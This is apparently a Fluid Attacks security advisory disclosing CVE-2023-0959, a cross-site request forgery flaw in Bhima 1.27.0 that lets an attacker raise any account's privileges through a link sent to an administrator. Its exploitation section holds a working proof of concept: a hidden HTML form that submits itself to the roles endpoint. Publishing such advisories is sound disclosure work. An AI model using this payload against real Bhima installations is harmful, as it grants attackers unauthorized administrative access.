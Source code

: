 ```yaml
---
slug: advisories/calamaro/
title: Bhima 1.27.0 - Privilege Escalation via CSRF
authors: Carlos Bello
writer: cbello
codename: calamaro
product: Bhima 1.27.0 - Privilege Escalation via CSRF
date: 2023-02-27 12:00 COT
cveid: CVE-2023-0959
severity: 8.0
description: Bhima 1.27.0      -      Privilege Escalation via CSRF
keywords: Fluid Attacks, Security, Vulnerabilities, CSRF, Bhima, Privilege Escalation
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Bhima 1.27.0 - Privilege Escalation via CSRF                       |
| **Code name**         | [Calamaro](https://en.wikipedia.org/wiki/Andr%C3%A9s_Calamaro)     |
| **Product**           | Bhima                                                              |
| **Affected versions** | Version 1.27.0                                                     |
| **State**             | Public                                                             |
| **Release date**      | 2023-02-27                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Cross-site request forgery                                                                                                  |
| **Rule**              | [007. Cross-site request forgery](https://docs.fluidattacks.com/criteria/vulnerabilities/007)                               |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 8.0                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-0959](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0959)                                               |

## Description

Bhima version 1.27.0 allows a remote attacker to update the privileges
of any account registered in the application via a malicious link sent
to an administrator. This is possible because the application is vulnerable
to CSRF.

## Vulnerability

This vulnerability occurs because the application is vulnerable to CSRF.
In this way we can persuade an administrator to elevate the privileges
of an arbitrary account.

## Exploitation

### Exploit.html

```html
<!DOCTYPE html>
<html>
  <body>
    <form action="http://localhost:8082/roles/assignTouser" method="POST">
      <input type="hidden" name="user_id" value="6" />
      <input type="hidden" name="role_uuids" value="5B7DD0D692734955A703126FBD504B61" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### Evidence of exploitation

![Priv-Escalation-csrf](https://user-images.githubusercontent.com/51862990/220748412-3b636ab7-8c8b-4c9b-b715-8d4812cac2da.gif)

## Our security policy

We have reserved the ID CVE-2023-0959 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Bhima 1.27.0

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/IMA-WorldHealth/bhima/>

## Timeline

<time-lapse
  discovered="2023-02-22"
  contacted="2023-02-22"
  replied="2023-02-22"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>

